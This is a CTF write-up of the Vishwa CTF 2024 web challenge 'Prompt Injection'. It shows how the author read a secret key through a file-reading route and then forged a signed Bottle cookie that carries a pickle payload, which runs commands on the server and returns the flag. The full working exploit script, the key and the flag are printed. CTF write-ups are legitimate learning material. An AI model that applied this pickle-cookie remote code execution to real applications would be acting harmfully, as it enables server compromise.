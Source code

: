 ```yaml
---
title: "Prompt Injection"
event: "Vishwa CTF 2024"
category: "WEB"
date: "2024-02-14"
difficulty: "Expert"
image: ""
---
```

# Prompt Injection
`Difficulty: Expert`

DESCRIPTION
I have this collection of poems and whenever I am happy I have a look at them, hope you like it.

Author: Samarth Kamble

FLAG FORMAT: `VishwaCTF{}`

## Solution:

This challenge is similar to one of the challenges I found on the Internet, From there I get an idea to solve the problem

from this route (`/show?id=/app/config/secret.py`) I got the secret that is used to sign cookies

![alt text](../../assets/image.png)
`Vishwa = "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"`
<br><br>

To sign i went to this route and this is what i get

![alt text](../../assets/image-1.png)

from this i get to know that the is used use admin access

so to perform all these steps i got python script 
in which I entered the key and the website URL with route

```
key: trrrrrrrrrrrrryyyyyyyyyyyharddddddddd
url: https://ch681045157935.ch.eng.run/sign
```
<br>


```python
import os, hmac, hashlib, base64, pickle, requests

def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)

def touni(s, enc='utf8', err='strict'):
    if isinstance(s, bytes):
        return s.decode(enc, err)
    return str("" if s is None else s)

def create_cookie(name, value, secret):
    d = pickle.dumps([name, value], -1)
    encoded = base64.b64encode(d)
    sig = base64.b64encode(hmac.new(tob(secret), encoded, digestmod=hashlib.md5).digest())
    value = touni(tob('!') + sig + tob('?') + encoded)
    return value

class PickleRCE(object):
    def __reduce__(self):
        return (exec,("""
from bottle import response
import subprocess,base64
flag = subprocess.check_output('/flag', shell=True)
response.set_header('X-Flag',base64.b64encode(flag))
""",))

session = {"name": PickleRCE()}
cookie = create_cookie("name", session, "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")

r = requests.get("https://ch681045157935.ch.eng.run/sign", cookies={"name": cookie})
print(base64.b64decode(r.headers["x-flag"]).decode("ascii"))

```

after runnig this script we get the flag

### Flag:
`VishwaCTF{W3lcome_t0_p03m_p0ck3t}`


